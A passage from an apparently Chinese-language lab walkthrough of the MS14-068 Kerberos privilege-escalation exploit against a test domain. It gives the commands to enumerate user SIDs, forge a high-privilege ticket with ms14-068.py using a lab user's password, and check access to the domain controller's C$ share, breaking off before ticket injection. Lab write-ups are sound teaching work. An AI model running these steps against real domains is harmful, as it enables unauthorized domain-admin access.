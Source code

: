 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxxYRdQSCn5SiaPU8N9eP0Oqcf3stTGFAgxNeTibmEmKLAHY8oFYpgtZng/640?wx_fmt=png)

可以看到域控机器没有安装补丁。

#### 查看用户的 SID

以用户 mary 身份登录，输入命令查看 SID 为：S-1-5-21-1218902331-2157346161-1782232778-1124

```
whoami /user
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxdtMPTKS8aKiaodR2L90tebE4CNV8LKVEMnfXHVO8DezhFkaIgtsCx3Q/640?wx_fmt=png)

还可以使用这条命令获取域内所有用户的 SID：

```
wmic useraccount get name,sid
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxwBjR4Or5LNeuiamwKBEEtAUMUZJpJ6dlXs5NQ3xNTiaj2EoRqmDtUzwQ/640?wx_fmt=png)

#### 生成高权限票据

使用 PyKEY 生成高权限票据命令格式：

```
ms14-068.py -u 域成员@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码
```

域成员：mary

域名：god.org

mary 的 sid：S-1-5-21-1218902331-2157346161-1782232778-1124

域控制器地址：192.168.2.25

域成员 mary 的密码：admin!@#45

使用命令如下：

```
ms14-068.py -u mary@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.2.25 -p admin!@#45
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxUQMCRdUrxUJrBkibTapfkkxPiaMZCfZJnkvphIicmgUlOjNMbCTINjDkA/640?wx_fmt=png)

之后会在当前路径下生成一个名为 ：TGT_mary@god.org.ccache 的票据文件。

#### 查看注入前的权限

首先我们查看域控制器 C 盘的内容是看不了的：

```
dir \\OWA2010CN-God\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLfUuA8geDU4PUA88ciatSqxiaLyfugBcn0w1Rib1k5ibJStyvuBFic5qOwEtj5iblcCE3TicbCslm8kByww/640?wx_fmt=png)
